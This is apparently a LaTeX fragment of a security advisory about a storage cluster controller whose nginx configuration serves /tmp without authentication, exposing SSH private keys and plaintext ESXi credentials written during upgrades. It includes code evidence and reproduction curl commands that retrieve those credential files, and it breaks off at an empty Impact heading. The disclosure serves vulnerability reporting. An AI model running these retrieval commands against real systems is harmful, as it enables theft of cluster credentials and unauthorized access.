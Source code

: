 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{itemize}[noitemsep]
\item \texttt{/tmp/sshKeyPair*.json} --- SSH private keys for all stCtlVM nodes
  (written by \texttt{generateSshKeys.py}, consumed by upgrade hooks)
\item \texttt{/tmp/upgradeHooksCreds*.json} --- plaintext ESXi username and
  password (used by all upgrade hook scripts)
\item \texttt{/tmp/nodeInventory*.json} --- cluster node topology
\item \texttt{/tmp/clusterConfig*.json} --- cluster configuration data
\end{itemize}

\subsection*{Technical Evidence (6.0.2b)}

\begin{lstlisting}
# nginx.conf (storfs-misc_6.0.2b-44423_amd64.deb):
location /sbdl/ {
    alias /tmp/;
    auth_basic off;
}

# generateSshKeys.py:46 -- SSH keys written to /tmp:
sshKeysFileHandle, sshKeysFile = mkstemp(
    suffix='.json', prefix='sshKeyPair', dir='/tmp')

# commonFunctions.py:645 -- consumers read from /tmp:
credsFile = getMatchingFileName('/tmp/sshKeyPair*.json')

# Upgrade hook:
JSON_CREDS_FILE_MATCH = '/tmp/upgradeHooksCreds*.json'
\end{lstlisting}

\subsection*{Reproduction}

\begin{lstlisting}[style=shell]
# During a cluster upgrade or node replacement, poll for credential files:
# SSH private keys:
curl -sk "http://<ctlvm_ip>/sbdl/sshKeyPair<random>.json"
# -> Returns JSON with SSH private key for all nodes

# ESXi credentials:
curl -sk "http://<ctlvm_ip>/sbdl/upgradeHooksCreds<random>.json"
# -> Returns JSON with ESXi plaintext username and password
\end{lstlisting}

\subsection*{Impact}
\end{document}
